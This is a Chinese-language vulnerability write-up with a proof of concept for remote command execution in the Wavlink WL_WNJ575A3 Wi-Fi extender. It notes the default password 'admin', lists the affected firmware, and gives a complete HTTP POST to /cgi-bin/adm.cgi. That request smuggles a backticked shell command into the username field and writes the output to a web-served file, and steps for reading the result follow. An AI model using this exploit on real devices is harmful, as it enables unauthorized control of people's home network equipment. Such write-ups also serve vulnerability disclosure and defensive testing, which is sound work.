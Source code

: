 ***简介***

WL-WN575A3是一款便携式插入式Wi-Fi扩展器，双频扩展器搭配双频路由器，2.4GHz和5GHz信号同时发力，覆盖家中每个角落，让Wi-Fi无处不在。WL-WN575A3采用802.11AC双频技术，比标准802.11n速度快了3倍，提供高达300Mbps 2.4G 和 867Mbps 5GHz双频段的无线速率，观看4K电影，在线游戏影音，上网浏览图片，逛朋友圈，手机上网通通都不耽误。默认密码“admin”。文末获取空间测绘搜索语句。

***漏洞描述***

睿因Wavlink WL_WNJ575A3

v.R75A3_V1410_220513 中的问题允许远程攻击者通过 adm.cgi 中 set_sys_adm 函数的用户名参数执行任意代码。

***影响版本***

- 

```
Wavlink WL_WNJ575A3 v.R75A3_V1410_220513
```

***漏洞代码***

![image-20230821091241135](./睿因Wavlink WL_WNJ575A3远程命令执行.assets/image-20230821091241135.png)

***漏洞利用***

POC

```

POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close

page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass=12345678
```

1.Burp发包执行命令

![image-20230821091305300](./睿因Wavlink WL_WNJ575A3远程命令执行.assets/image-20230821091305300.png)

2.访问“data.html”查看命令执行结果

![image-20230821091314227](./睿因Wavlink WL_WNJ575A3远程命令执行.assets/image-20230821091314227.png)